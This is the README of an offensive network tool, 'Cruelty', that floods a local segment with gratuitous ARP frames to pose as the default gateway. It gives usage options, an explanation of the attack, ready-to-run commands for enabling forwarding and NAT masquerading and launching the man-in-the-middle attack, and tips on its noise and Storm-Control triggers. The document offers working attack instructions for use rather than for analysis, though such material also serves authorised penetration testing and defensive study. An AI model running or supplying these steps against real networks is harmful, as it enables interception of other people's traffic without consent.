 # Cruelty
Gratuitous ARP Injector

```
python3 Cruelty.py --help                                                                                                                     
                                                                                                     
Gratuitous ARP Injector
Author: Caster, @casterbyte, <caster@exploit.org>

usage: Cruelty.py [-h] --gateway GATEWAY --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --gateway GATEWAY     Choose gateway IP address
  --interface INTERFACE
                        Choose your interface for attack
  --mac EVILMAC         Specify your MAC Address
```

## Mechanics
It is a modification of ARP spoofing. The script will shout at the entire channel segment that your computer is the default gateway by sending Gratuitous ARP messages.
Gratuitous ARP is a special ARP frame that sends out an announcement that a new binding of MAC address and IP address has occurred. This can be used by an attacker to conduct an MITM attack, run a script against the router's IP address.

The scanner waits for the following arguments as input:
  - network interface (--interface)
  - your MAC Address (--mac)
  - IP address of gateway (--gateway)
  
## How to use it

1. Install dependencies
```
git clone https://github.com/casterbytethrowback/Cruelty
sudo pip3 install -r requirements.txt
```
2. Enable Forwarding, MASQUERADE, NAT Helper 
```
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o ethX -j MASQUERADE
sudo modprobe nf_conntrack
echo "1" > /proc/sys/net/netfilter/nf_conntrack_helper
```
3. Attack
```
sudo python3 Cruelty.py --interface ethX --mac XX:XX:XX:XX:XX:XX --gateway <GW IP>
```
## Limitations
This attack is very noisy.
The tool does not restore the structure of ARP tables by itself. After the attack stops, the gateway's MAC address on the clients will change only after 5 minutes. Understand how ARP works.
GARP frames are sent every 800 ms. You can edit the script code and change the delay before sending the next frame, but be careful. There is a chance to trigger the Storm-Control system.
